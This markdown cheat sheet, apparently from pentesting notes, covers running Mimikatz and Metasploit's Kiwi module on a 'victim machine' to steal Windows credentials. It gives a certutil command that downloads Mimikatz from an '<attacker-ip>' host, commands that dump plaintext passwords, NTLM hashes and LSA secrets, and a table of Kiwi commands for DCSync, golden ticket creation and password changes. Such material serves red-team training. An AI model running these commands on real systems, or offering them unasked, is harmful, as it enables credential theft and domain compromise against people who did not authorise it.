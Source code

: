 **Mimikatz** allows to extract sensitive data, such as plaintext passwords, password hashes, and Kerberos tickets, directly from a system's memory. Its capabilities, such as credential dumping, Pass-the-Hash, and Golden Ticket attacks, highlight weaknesses in Windows security.


## Transmit and Execute Mimikatz 

To run Mimikatz on a victim machine, you first need to transmit the Mimikatz executable to the machine.

#### Using Metasploit

```bash
cd C:\\Windows\\Temp\\
upload /usr/share/windows-resources/mimikatz/x64/ 
# Once uploaded, you can execute it through the Meterpreter session
execute -f C:\\Windows\\Temp\\mimikatz.exe
```

#### Using Python server

```bash
# Linux machine
python3 -m http.server 8000
# Windows machine
certutil -urlcache -f http://<attacker-ip>:<port>/mimikatz.exe mimikatz.exe
# Execute
mimikatz.exe
```

## Enable Debug Privileges

For Mimikatz to interact with Windows security processes like LSASS (Local Security Authority Subsystem Service), you must grant it the necessary privileges. This is done by enabling the `debug` privilege within Mimikatz:

```bash
privilege::debug
```


## Dumping Credentials

Mimikatz can dump various credentials, such as passwords, hashes, and Kerberos tickets, from memory. Below are the most common commands to extract these credentials:

1.  **Dumping Plaintext Passwords**

To dump all plaintext passwords and related information from the memory:

```bash
sekurlsa::logonpasswords
```

This command displays detailed information about the current user's session, including usernames, domain names, and plaintext passwords if available.

2.  **Dumping NTLM Hashes**

To extract NTLM hashes of users' passwords:

```bash
lsadump::sam
```

This dumps the hashes of local user accounts stored in the SAM (Security Account Manager) database.


3.  **Dumping secrets**

The `lsadump::secrets` command in Mimikatz is used to extract secrets (like password hashes, Kerberos keys, and other sensitive data) from the LSA (Local Security Authority) secrets database in Windows systems.

```bash
lsadump::secrets
```

## Dumping Credentials with Kiwi
The **Kiwi module** in Metasploit is a module based on the **mimikatz** tool and allows you to extract sensitive data, such as plaintext passwords, password hashes, and Kerberos tickets, from a compromised machine. Here's a breakdown of how to use it for dumping credentials.

#### Usage

In your Metasploit console, you need to load the `kiwi` module to interact with the victim machine’s memory.

```bash
load kiwi
```

Once you have gained the Meterpreter session you can execute the following commands:

|**Command**|**Description**|
|---|---|
|`creds_all`|Retrieve all credentials (parsed)|
|`creds_kerberos`|Retrieve Kerberos credentials (parsed)|
|`creds_msv`|Retrieve LM/NTLM credentials (parsed)|
|`creds_ssp`|Retrieve SSP credentials (parsed)|
|`creds_tspkg`|Retrieve TsPkg credentials (parsed)|
|`creds_wdigest`|Retrieve WDigest credentials (parsed)|
|`dcsycn`|Retrieve user account information via DCSync (unparsed)|
|`dcsycn_ntlm`|Retrieve user account NTLM hash, SID, and RID via DCSync (unparsed)|
|`golden_ticket_create`|Create a golden Kerberos ticket|
|`kerberos_ticket_list`|List all Kerberos tickets (unparsed)|
|`kerberos_ticket_purge`|Purge any in-use Kerberos tickets|
|`kerberos_ticket_use`|Use a Kerberos ticket|
|`kiwi_cmd`|Execute an arbitrary Mimikatz command (unparsed)|
|`lsa_dump_sam`|Dump LSA SAM (unparsed)|
|`lsa_dump_secrets`|Dump LSA secrets (unparsed)|
|`password_change`|Change the password/hash of a user|
|`wifi_list`|List WiFi profiles/credentials for the current user|
|`wifi_list_shared`|List shared WiFi profiles/credentials (requires SYSTEM privileges)|